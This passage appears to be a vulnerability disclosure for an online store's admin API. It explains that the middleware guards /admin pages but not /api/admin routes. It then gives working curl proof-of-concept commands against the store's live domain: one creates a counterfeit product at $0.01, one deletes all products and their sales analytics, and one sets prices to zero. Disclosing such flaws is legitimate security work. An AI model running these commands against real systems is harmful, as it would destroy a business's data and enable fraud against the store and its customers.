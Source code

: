 The middleware only matches frontend routes under `/admin`, but **does NOT match API routes** under `/api/admin/*`.

#### Proof of Concept - Product Creation Attack

An attacker can create a malicious product with this simple command:

```bash
curl -X POST https://elucid.london/api/admin/products \
  -H "Content-Type: application/json" \
  -d '{
    "name": "FAKE Designer Hoodie",
    "description": "Counterfeit product",
    "price": 0.01,
    "compareAtPrice": 299.99,
    "sizes": ["S", "M", "L"],
    "colors": ["Black"],
    "variants": [
      {"size": "M", "color": "Black", "stock": 999}
    ],
    "featured": true,
    "active": true
  }'
```

**Impact:**
- Product appears on the live store
- Priced at $0.01 (or free)
- Marked as "featured" for maximum visibility
- 999 units "in stock"
- Customers can purchase and expect fulfillment
- Damages brand reputation

#### Proof of Concept - Product Destruction Attack

An attacker can delete ALL products:

```bash
# Step 1: Get all product IDs
curl https://elucid.london/api/products

# Step 2: Delete each product
curl -X DELETE https://elucid.london/api/admin/products/[PRODUCT_ID]?deleteAnalytics=true
```

**Impact:**
- Entire product catalog wiped out
- All sales data deleted (with deleteAnalytics=true)
- Business operations halted
- Customer orders affected

#### Proof of Concept - Price Manipulation Attack

An attacker can set all products to $0:

```bash
# Update expensive product to free
curl -X PUT https://elucid.london/api/admin/products/[PRODUCT_ID] \
  -H "Content-Type: application/json" \
  -d '{
    "name": "Designer Jacket",
    "description": "High-end jacket",
    "price": 0,
    "sizes": ["M"],
    "colors": ["Black"],
    "variants": [{"size": "M", "color": "Black", "stock": 100}],
    "active": true
  }'
```